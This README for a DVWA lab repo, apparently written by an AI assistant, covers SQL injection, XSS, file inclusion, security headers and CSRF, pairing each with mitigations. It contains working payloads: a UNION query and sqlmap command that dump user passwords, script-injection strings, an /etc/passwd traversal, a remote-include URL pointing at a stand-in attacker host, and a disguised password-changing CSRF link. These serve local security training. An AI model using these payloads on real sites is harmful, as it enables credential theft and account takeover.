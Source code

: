 # Web-App Security 
A compact, copy-friendly README for your **web-app-security** repo.
Includes the five DVWA labs you created: **SQL Injection**, **XSS**, **File Inclusion**, **Web Security Headers**, and **CSRF** — with one-line descriptions, quick repro payloads/commands, and short mitigation notes. Use this as the repo `README.md`.

---

## What this repo contains

Small, hands-on demos for learning and testing common web vulnerabilities on **DVWA (low)** in a local lab.

### Labs

1. **SQL Injection** — extract DB data via injectable parameters.

   * Quick payload: `1 UNION SELECT user,password FROM users#`
   * Quick command (sqlmap):

     ```bash
     sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sql/?id=18&Submit=Submit" \
       --cookie="PHPSESSID=<id>; security=low" -p id --batch --dump -T users -C user,password
     ```
   * Mitigation: parameterized queries (prepared statements), input validation, least-privilege DB user.

2. **Cross-Site Scripting (XSS)** — run attacker JS in victims’ browsers.

   * Stored payload: `<body onload=alert('test')>`
   * Reflected payload: `<script>alert("XSS Found");</script>`
   * Mitigation: contextual output encoding (e.g., `htmlspecialchars()`), CSP, auto-escaping templates.

3. **File Inclusion (LFI / RFI)** — read local files or include remote code.

   * LFI example: `?page=../../../../../../etc/passwd`
   * RFI example: `?page=http://attacker/csrf.html`
   * Mitigation: whitelist includes, `realpath()` checks, `allow_url_include=Off`, `open_basedir`, least privilege.

4. **Web Security Headers** — add headers to harden browsers.

   * Core headers to add in Apache:

     ```apache
     Header always set X-Frame-Options "SAMEORIGIN"
     Header set X-Content-Type-Options "nosniff"
     Header set Referrer-Policy "strict-origin-when-cross-origin"
     Header set Content-Security-Policy "default-src 'self'; script-src 'self'; object-src 'none'"
     Header set Permissions-Policy "geolocation=(), microphone=(), camera=()"
     ```
   * For TLS: `Strict-Transport-Security: max-age=31536000; includeSubDomains; preload`
   * Verify with: `curl -I http://127.0.0.1/dvwa`

5. **CSRF (Cross-Site Request Forgery)** — force authenticated actions via crafted links.

   * Example attacker link (changes password):

     ```html
     <a href="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#">Movie 720p</a>
     ```
   * Mitigation: synchronizer CSRF tokens, `SameSite` cookies, require POST for state changes, Origin/Referer checks.

---

## Quick start (lab)

1. Boot Kali VM and start Apache + DVWA.
2. Log in to DVWA and set **Security: low**.
3. Run the lab you want (open relevant `/vulnerabilities/...` page).
4. Capture requests with browser DevTools / Burp for evidence.
5. Apply mitigations in a test copy and verify.

---

## Repo structure (suggested)

```
web-app-security/
├─ sql/        — DVWA-SQL-attack-and-mitigation.md
├─ xss/        — DVWA-XSS-attack-and-mitigation.md
├─ lfi-rfi/    — DVWA-LFI-RFI-attack-and-mitigation.md
├─ headers/    — DVWA-Web-Security-Headers.md
├─ csrf/       — DVWA-CSRF-attack-and-mitigation.md
└─ README.md   — (this file)
```

---

## Safety & ethics

⚠️ Only run these tests in your **own** lab or with explicit permission. Never test production or third-party systems without authorization.

---

## License

MIT — use for learning and teaching only.

---

Want this saved to the canvas as the repo `README.md` file (ready to push)? I can add it directly.
